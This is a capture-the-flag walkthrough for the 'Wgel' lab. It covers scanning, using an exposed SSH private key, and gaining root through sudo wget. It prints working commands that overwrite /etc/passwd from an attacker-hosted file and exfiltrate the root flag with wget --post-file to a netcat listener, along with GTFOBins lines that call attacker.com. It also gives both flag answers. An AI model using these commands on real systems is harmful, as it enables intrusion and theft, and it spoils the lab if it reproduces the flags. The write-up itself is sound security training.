 # Wgel CTF

* IP = 10.10.14.183

## Nmap scan report:
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## Gobuster scan report:
* Initial scan:
```bash
2022/06/21 00:05:23 Starting gobuster
=====================================================
/sitemap (Status: 301)
Progress: 7370 / 87666 (8.41%)
```
* Inside /sitemap scan:
```bash
2022/06/21 00:18:00 Starting gobuster
=====================================================
/images (Status: 301)
/css (Status: 301)
/js (Status: 301)
/.ssh (Status: 301)
/fonts (Status: 301)

```
* After we navigate to http://IP/sitemap/.ssh, we get an id_rsa file
* Download the private key and mark it only read-write by the user to use it as ssh private key
```bash
chmod 600 id_rsa
```

## Questions/Tasks:

1. User flag:

* In the main page we find some strange comments:
![Screenshot](./1.png)
* Presumably one user is *Jessie*
* SSH into the server using the private key and Jessie as the username
```bash
ssh -i id_rsa jessie@10.10.14.183
```
* Finding the flag file:
```bash
$ find | grep flag
./Documents/user_flag.txt
```

**Ans-057c67131c3d5e42dd5cd3075b198ff6**

2. Root flag:

* To escalate privileges first to check which commands can be run with sudo:
```bash
jessie@CorpOne:~$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget

```
* Hence we can see wget can be run witsudo as Root
* Search for privilege escalation technique with the help of wget(The Challenge name also suggested that BTW!!😅😅)
  from <a href="https://gtfobins.github.io/">Gtfobins</a>:<br>

Option 1:(forge the /etc/passwd file and upload it to get root shell)
```bash
URL=http://attacker.com/file_to_get
LFILE=file_to_save
wget $URL -O $LFILE

```
* Copy the passwd file to local machine
* add known password hash to the first line of the file(create the hash with following script)
```python
import crypt
crypt.crypt("password")
```
* Launch an http server in the same directory:
```bash
python3 -m http.server
```
* Get the forged passwd file and write it to /etc/passwd:
```bash
sudo wget http://10.4.50.128:8000/passwd -O /etc/passwd
```
* The /etc/passwd gets overwritten
* Escalate to root by:
```bash
su root
```
* Navigate to /root and find the flag:<br>

Option 2:(directly read the file)<br>
```bash
LFILE=file_to_read
wget -i $LFILE
```
```bash
jessie@CorpOne:~$ sudo wget -i /root/root_flag.txt
--2022-06-21 06:17:24--  http://b1b968b37519ad1daa6408188649263d/
Resolving b1b968b37519ad1daa6408188649263d (b1b968b37519ad1daa6408188649263d)... failed: Name or service not known.
wget: unable to resolve host address ‘b1b968b37519ad1daa6408188649263d’
```

Option 3:(Post request to a server that runs locally)
```bash
URL=http://attacker.com/file_to_get
LFILE=file_to_save
sudo wget $URL -O $LFILE
```

* Start a netcat listener at some port
* Post request to local IP:Port
```bash
jessie@CorpOne:~$ sudo wget --post-file /root/root_flag.txt 10.4.50.128:5689
--2022-06-21 06:21:12--  http://10.4.50.128:5689/
Connecting to 10.4.50.128:5689... connected.
HTTP request sent, awaiting response...
```
* Receive the message:
```
→ nc -lnvp 5689
Listening on 0.0.0.0 5689
Connection received on 10.10.14.183 58010
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.4.50.128:5689
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

b1b968b37519ad1daa6408188649263d

```

**Ans-**
```
b1b968b37519ad1daa6408188649263d
```
